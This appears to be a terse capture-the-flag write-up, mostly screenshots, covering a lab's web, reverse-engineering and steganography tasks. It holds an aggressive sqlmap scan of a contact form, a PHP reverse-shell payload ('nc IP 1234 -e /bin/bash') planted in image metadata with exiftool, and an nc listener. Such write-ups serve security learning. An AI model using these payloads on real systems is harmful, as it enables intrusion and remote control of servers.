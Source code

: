 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/93f21a62-b8f3-4bbb-86fb-2c044a001199)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72bf2211-6966-45ac-b446-6ce76dea7192)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f896c2bc-b5e9-4103-9d85-0495b3a8fb0f)
```
sqlmap -u "http://62.173.140.174:18300/contact.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="name=as&email=d%40d.ru&message=a"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0493d916-2315-4600-94e5-02462f636eb0)
```
exiftool -DocumentName="<?php system('nc IP 1234 -e /bin/bash'); ?>" file.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/222fd2ea-78b4-40b5-aa09-d368967f1602)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7ced86ab-f32f-4b13-8900-ac81d5a976ef)
```
nc -lnvp 1234
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8dfb044-bbf5-4b52-8156-52085959b4d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7855fbb-c57d-48f5-8e90-f2ea72b76f8b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d5622e7-4060-4da7-af10-a7dc7dc63ef9)

... revers ing ...

revers.cpp
```
#include <iostream>

int i;
int v12;
int v13;
int v14;
int v15;
int8_t v10;

int main()
{  
    char crypt_bytes[24] = { (char)136, 0x39, 0x3a, 0x34, 0x0b, 0x65, 0x70, 0x14, 0x06, 0x66, 0x66, 0x0e, 0x49, 0x67, 0x74, 0x5d, 0x08, 0x5d, 0x21, char(135), 0x4b, 0x24, 0x5e, 0x16 };
    char clear_bytes[24] = { (char)137, 0x50, 0x4e, 0x47, 0x0d, 0x0a, 0x1a, 0x0a, 0x00, 0x00, 0x00, 0x0d, 0x49, 0x48, 0x44, 0x52, 0x00, 0x00, 0x02, (char)128, 0x00, 0x00, 0x01, 0x56 };
    char login[7] = { 'D', 'E', 'S', '1', 'G', 'N', '\n'};

    v12 = 0;
    v13 = 0;
    v14 = 7;
    v15 = 24;

    for (i = 0; i < 24; ++i)
    {
        if (v14 <= v12)
            v12 = 0;
        if (v15 <= v13)
            v13 = 0;

        v10 = (crypt_bytes[i] + 10) ^ login[v12++] ^ v15 ^ v14 ^ (v14 + (clear_bytes[i] ^ 0x60) - v15) ^ 0x43;

        std::cout << v10 << std::endl;
    }
}

 ``` 
```
g++ revers.cpp -o revers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c43fc461-05d9-49bc-afc1-f51036fa03df)

... stega ...

https://fotoforensics.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b6bb709e-5498-4daa-9c4c-c291c30acd00)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3db90e76-6baa-4f4f-9346-d90be73d92b3)

https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'UTF8','string':'Anton'%7D,'Standard',false)&input=Kei

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f8ccbac6-8e8e-40a2-b72a-682c55c2be43)
```
ssh thomas@62.173.140.174 -p 18322
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bb11cc18-22f3-4f08-ac21-4dbcdcddb63a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c32e4ea5-dc01-4808-b19b-a27ab5b964ef)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a49418e-580a-485d-bec1-47148ee2dac9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/95ae89f9-0110-4d2e-8976-77bd7e2f1daf)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0a466fad-7437-4d3a-a79f-4b01ca970651)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a860367b-75ae-41f2-9f25-f945e7b5f766)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/89ef61c8-5cf0-4e61-acd2-2d1d409df283)



